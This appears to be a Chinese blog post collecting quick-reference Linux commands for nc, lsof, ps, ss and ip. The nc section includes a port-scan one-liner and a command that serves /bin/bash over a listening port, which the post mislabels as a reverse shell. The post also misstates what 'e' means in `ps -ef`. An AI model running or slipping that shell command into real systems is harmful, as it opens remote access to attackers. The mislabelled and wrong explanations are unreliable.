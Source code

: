 ```yaml
---
title: quick commands"
date: 2024-02-03 14:10:00 +0800
categories: [Blogging, tools]
tags: [writing]
---
```


记录一些常用的命令

## 1 nc

### 1 建立TCP连接

`nc hostname port`

### 2 监听TCP端口

`nc -l -p port`

监听UDP的命令是`nc -u -l -p port`

### 3 发送文件

`nc -w 3 hostname port < file`

### 4 接收文件

`nc -l -p port > file`

### 5 发送UDP数据

`echo "data" | nc -u -w 1 hostname port`

### 6 扫描开放的端口

`nc -zv hostname start_port-end_port`

### 7 通过HTTP请求发送数据

`echo -e "GET / HTTP/1.1\nHost: hostname\n\n" | nc hostname port`

### 8 创建反向shell： 在目标机器上运行

`nc -l -p port -e /bin/bash`

## 2 lsof

list open files

### 1 查看端口占用情况

`lsof -i :port`

### 2 查看某个文件被哪些进程占用

`lsof filename`

### 3 查看某个进程打开了哪些文件

`lsof -p pid`

## 3 ps

process status 

### 1. 查看所有进程

`ps -ef`或者`ps aux`

“e” 表示显示环境变量，"f" 表示显示完整格式，"a" 表示显示所有用户的进程，"u" 表示显示用户/所有者信息，"x" 表示显示没有控制终端的进程。

### 2. 查看运行中的进程

`ps -e`

### 3. 查看某个用户的进程

`ps -u username`

### 4. 树状图显示

`ps axjf`

## 4 ss

+ `ss`：如果没有任何参数，ss 会列出开放的非监听 TCP 套接字。

+ `ss -t`：列出所有 TCP 套接字。

+ `ss -u`：列出所有 UDP 套接字。

+ `ss -l`：列出所有监听的套接字。

+ `ss -a`：列出所有套接字（包括监听和非监听的）。

+ `ss -n`：不解析服务名称，直接显示端口号。

+ `ss -p`：显示进程使用的套接字。

+ `ss -e`：显示详细的套接字信息。

+ `ss -o`：显示 timer 信息.

## 5 ip

+ 查看网络设备信息：使用 `ip link show` 或者简写为 `ip l`，这将显示所有网络设备的信息，包括设备名称、状态（UP 表示启用，DOWN 表示关闭）、MAC 地址等。

+ 启动或关闭网络设备：使用 `ip link set dev DEVICE up` 或 `ip link set dev DEVICE down`，其中 DEVICE 是你要操作的设备的名称。例如，要启动名为 eth0 的设备，你可以输入 `ip link set dev eth0 up`。

+ 查看 IP 地址：使用 `ip addr show` 或者简写为 `ip a`，这将显示所有网络设备的 IP 地址信息。

+ 添加或删除 IP 地址：使用 `ip addr add IP dev DEVICE` 或 `ip addr del IP dev DEVICE`，其中 IP 是你要添加或删除的 IP 地址，DEVICE 是你要操作的设备的名称。例如，要给 eth0 设备添加 IP 地址 192.168.1.2，你可以输入 `ip addr add 192.168.1.2 dev eth0`。

+ 查看路由信息：使用 `ip route show` 或者简写为 `ip r`，这将显示所有的路由信息。

+ 添加或删除路由：使用 `ip route add NETWORK via GATEWAY` 或 `ip route del NETWORK via GATEWAY`，其中 NETWORK 是你要添加或删除的网络，GATEWAY 是你要设置的网关。例如，要添加一个到 192.168.1.0/24 网络的路由，网关为 192.168.1.1，你可以输入 `ip route add 192.168.1.0/24 via 192.168.1.1`。
